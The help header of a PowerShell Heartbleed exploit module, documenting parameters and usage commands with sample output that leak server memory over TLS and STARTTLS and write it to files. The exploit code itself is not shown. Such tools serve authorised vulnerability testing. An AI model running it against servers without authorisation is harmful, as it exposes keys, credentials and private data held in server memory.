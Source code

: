 ﻿<#
.SYNOPSIS

Exploit the OpenSSL 1.0.1 - 1.0.1f TLS HeartBeat vulnerability.
Author: Joff Thyer, April 2014
Concept suggestion by Tim Tomes.

.DESCRIPTION

Sends a malformed TLS heartbeat request as many times as you want to and write
the returned data into a file.

.PARAMETER Computername

Either a domain name or IP address can be provided.

.PARAMETER Port

The default TCP port is 443 however any other port may be specified
here.

.PARAMETER WriteFile

If this parameter is added, a file named "$Computername-port$Port-hb.dat" will be written
containing all of the binary data retrieved for a specific computer host.

.PARAMETER TLSTries

Perform a full TLS connection to the server this many times. The default
for this parameter is 1. More data may be leaked with continued connect
attempts.

.PARAMETER Heartbeats

For a single TLS connection, send this many heartbeat requests
and gather the resulting data.  This defaults to 1 also.

.PARAMETER HBLen

The length of the malformed heartbeat packet.  Defaults to 65535 bytes.

.PARAMETER NoRandomDelay

Disable the random delay between heartbeat requests.  The random
delay will be calculated between 0 and 1000 milliseconds.

.PARAMETER Timeout

The TCP timeout for a connect request.  Also this is the
read bytes timeout during the response reading.  This will
timeout if the server does not support the TLS heartbeat function.

.PARAMETER STLSProto

Use STARTTLS and define which protocol to support.
Choices are: IMAP, POP, SMTP, FTP.  Defaults to NONE.

.LINK

http://packetstormsecurity.com/files/126070/Heartbleed-Proof-Of-Concept.html

.NOTES

Author: Joff Thyer, April 2014
Version: 20140501-1011
Acknowledgments to Tim Tomes.

.EXAMPLE

Usage example within CMD.EXE only.  Assumes that module is contained within
current working directory.

C:\>powershell -command (Import-Module ./powerbleed.psm1); Test-Heartbleed -Computername 10.10.1.150 -Verbose


Powershell interactive usage examples:

PS C:\> Import-Module ./powerbleed.psm1

PS C:\> Test-Heartbleed -Computername 10.10.1.150 -Heartbeats 5 -HBLen 32767 -Verbose
VERBOSE: Testing 10.10.1.150
VERBOSE: Sending Heartbeat support test packet
VERBOSE: Connection attempt number: 1
VERBOSE: Sending 5 TLS heartbeat packets
VERBOSE: :  2896 bytes returned from server. (2896 total bytes)
VERBOSE: : 29882 bytes returned from server. (32778 total bytes)
VERBOSE: :  8688 bytes returned from server. (41466 total bytes)
VERBOSE: : 24113 bytes returned from server. (65579 total bytes)
... some output omitted ...

Can also use the powershell pipeline to write bytes out to a file like this:

PS C:\> Test-Heartbleed -Computername 10.10.1.150 | `
              Select-Object -ExpandProperty Bytes | `
              Set-Content -Encoding Byte -Path ./file.txt

PS C:\> Test-Heartbleed -Computername 10.10.1.150 | Select-Object -ExpandProperty Bytes | Set-Content -Encoding Byte -Path ./file.txt


Or as a one line command with no pipeline with the -WriteFile argument.

PS C:\blah> Test-Heartbleed -Computername 10.10.1.150 -WriteFile
PS C:\blah> ls

    Directory: C:\blah

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---          5/1/2014  10:08 AM       5793 10.10.1.150-port443-hb.dat
-a---          5/1/2014  10:08 AM      16179 powerbleed.psm1



Other examples:

PS C:\> Test-Heartbleed -Computername 10.10.1.150 -Heartbeats 3 -TLSTries 3 -NoRandomDelay -Verbose

PS C:\> Test-Heartbleed -Computername smtp.domain.tld -Port 25 -STLSProto SMTP -Verbose
VERBOSE: Testing smtp.domain.tld
VERBOSE: Sending Heartbeat support test packet
VERBOSE: smtp.domain.tld does not support TLS heartbeat.

Host                    Bytes                        Vulnerable String
----                    -----                        ---------- ------
smtp.domain.tld         {0}                          False


#>